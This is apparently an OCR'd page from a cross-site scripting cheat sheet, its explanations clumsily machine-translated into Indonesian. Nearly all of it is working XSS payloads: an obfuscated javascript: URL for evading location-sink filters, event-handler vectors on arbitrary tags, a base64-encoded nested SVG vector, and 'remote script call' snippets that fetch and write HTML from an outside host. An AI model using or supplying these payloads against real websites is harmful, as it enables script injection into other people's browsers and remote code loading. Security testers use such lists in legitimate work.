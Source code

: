 > DOM-Based XSS - Location Sink Filter Evasion

Gunakan saat filter mencari "https: // DOMAIN" dalam string yang digunakan untuk pengalihan

properti document.location. Itu juga menyalahgunakan cara string "Javascript" dapat dibangun.

       %01Jav%09asc%09ript:https://DOMAIN/%250Acon%09firm%25%281%25%29

> Vectors with Less Known Agnostic Event Handlers

Penangan acara yang dapat digunakan dengan nama tag yang berubah-ubah. Namun perlu diingat bahwa menggunakan

nama tag yang ada seperti "<b" untuk onafterscriptexecute dan onbeforescriptexecute mungkin

satu-satunya cara untuk memicu dalam beberapa skenario.

       <x onmouseenter=alert(1)>
    
       <x onafterscriptexecute=alert(1)>
    
       <x onbeforescriptexecute=alert(1)>
    
       <x onanimationend=alert(1)><style>x{animation:s}@keyframes s{}
    
       <x onwebkitanimationend=alert(1)><style>x{animation:s}@keyframes s{}

> Nested SVG Vector (Base64)

Gunakan untuk memintas filter. Hanya tokek, URL disandikan.

       <svg><use xlink:href=data:image/svg%2Bxml;base64,
    
       PHN2ZyBpZD0ieCIgeG1sbnM9Imh0dHA6Ly93d3cudzMub3JnL
    
       zIwMDAvc3ZnIiB4bWxuczp4bGluaz0iaHR0cDovL3d3dy53My
    
       5vcmcvMTk5OS94bGluayI%2BPGVtYmVkIHhtbG5zPSJodHRwO
    
       i8vd3d3LnczLm9yZy8xOTk5L3hodG1sIiBzcmM9ImphdmFzY3
    
       JpcHQ6YWxlcnQoMSkiLz48L3N2Zz4=%23x>

\#  exploitation

> Remote Script Call

Gunakan ketika Anda perlu memanggil skrip eksternal tetapi vektor XSS adalah berbasis handler (seperti

<svg onload =) atau dalam suntikan javascript. Domain "brutelogic.com.br" bersama dengan HTML

dan file js digunakan sebagai contoh. Jika ">" sedang difilter, ganti "r =>" atau "w =>" untuk

"fungsi()".

=> Berbasis HTML

(respons harus berupa HTML dengan tajuk Akses-Kontrol-Bolehkan-Asal (CORS))

       1. "var x=new XMLHttpRequest();x.open('GET','//brutelogic.com.br/0.php');x.send();
    
          x.onreadystatechange=function(){if(this.readyState==4){write(x.responseText)}}"
    
       2. fetch('//brutelogic.com.br/0.php').then(r=>{r.text().then(w=>{write(w)})})
    